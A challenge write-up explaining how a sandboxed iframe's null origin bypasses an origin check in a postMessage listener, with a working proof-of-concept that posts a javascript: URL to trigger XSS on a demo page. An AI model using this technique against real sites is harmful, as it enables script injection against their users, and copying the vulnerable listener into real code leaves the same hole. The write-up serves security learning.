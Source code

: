 ```yaml
---
layout: single
title: Exploit Web Messages using a Null Origin Technique
date: 2022-05-04
classes: wide
tags:
  - Twitter
  - Challenge
  - honoki
---
```


How could two security features collide into a vulnerability?

![twitter challenge](/assets/images/twitter/honoki/twitter-challenge.png)

## Overview

To start off, here is the complete codebase of the challenge.

```
<script>
var originAllowed = function(o) {
  try {
    return new URL(o,window.location.origin).hostname === new URL(window.location).hostname;
  } catch (e) {
    return false;
  }
}

window.addEventListener("message", function(e) {
  if (originAllowed(e.origin) && e.data) {
    try {
      t = JSON.parse(e.data)
    } catch (e) {}
    if (t && "object" == typeof t && t.goto) { window.location = t.goto; }
  }
});
</script>
```

The first issue here is the insecure assignment on `window.location`, which definitely leads to XSS. Here is a small PoC:

![self-xss](/assets/images/twitter/honoki/self-xss.png)

Unfortunately, this is only half of the challenge. Here's a hint from the author:

![twitter hint](/assets/images/twitter/honoki/twitter-hint.png)

This could only be done if the origin check at `originAllowed` is somehow insecure or broken.

The function returns true only if the event origin's hostname is equal to the location origin's hostname.

However, the first part is very suspicious.

```
new URL(o,window.location.origin)
```

Using the location origin as an URL base is a bad idea.

![twitter comment](/assets/images/twitter/honoki/twitter-comment.png)

If I were to somehow hide my origin, then the following would happen:

![null-origin](/assets/images/twitter/honoki/null-origin.png)

If an `iframe` makes a `postMessage` call and has a `sandbox` attribute that doesn’t contain the value `allow-same-origin`, [browsers give it a “unique” origin](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#the-iframe-element:concept-origin-2):

> When the `sandbox` attribute is set, the content is treated as being from a unique origin, forms, scripts, and various potentially annoying APIs are disabled, links are prevented from targeting other browsing contexts, and plugins are secured. The allow-same-origin keyword causes the content to be treated as being from its real origin instead of forcing it into a unique origin.

When determining the value of the Origin header to send in a cross-origin request, browsers serialize any unique origin as `null` and give the Origin header that value.

## Solution

I first write the `postMessage` caller like this:

```
<html>
    <body>
        <script>
            var url = "https://demo.honoki.net/xss-challenge.html"
            var pup = window.open(url)
            setTimeout(() => {
                pup.postMessage('{"goto": "javascript:alert(document.domain)"}', url)
            },1500)
        </script>
    </body>
</html>
```

Next, I frame the code and give it the required sandbox attributes.

```
<html>
    <iframe
        src="./exploit.html"
        sandbox="allow-scripts allow-popups allow-popups-to-escape-sandbox"
    ></iframe>
</html>
```

The `allow-scripts`, `allow-popups` and `allow-popups-to-escape-sandbox` are required to make the `postMessage` call.

Here is the result when I run it on a local server.

![alert](/assets/images/twitter/honoki/alert.png)

Thanks for reading!

